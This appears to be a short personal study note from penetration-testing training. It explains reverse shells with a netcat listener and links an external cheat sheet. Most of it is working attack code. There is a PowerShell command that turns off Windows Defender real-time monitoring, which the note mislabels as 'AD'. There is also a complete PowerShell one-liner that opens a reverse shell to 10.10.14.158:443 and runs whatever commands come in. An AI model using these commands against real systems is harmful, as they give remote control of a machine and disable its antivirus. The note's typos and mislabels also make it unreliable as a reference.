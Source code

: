 `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection
![[shell and payload/image.png|542x314]]

<span style="color:rgb(0, 176, 80)">server</span> --> attacker
<span style="color:rgb(0, 176, 80)">client</span> --> target

[cheat sheet of reverse shell ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### Server
```bash
sudo nc -lnpn 443
```
we need to try to use common port because not mush filters will block

#### client
windows will not have the netcat installed so we need to use manually
- this is shell code
- some times we dont have permission to do this or some time AD will block running this so we can disable the AD
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```


```powershell 
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
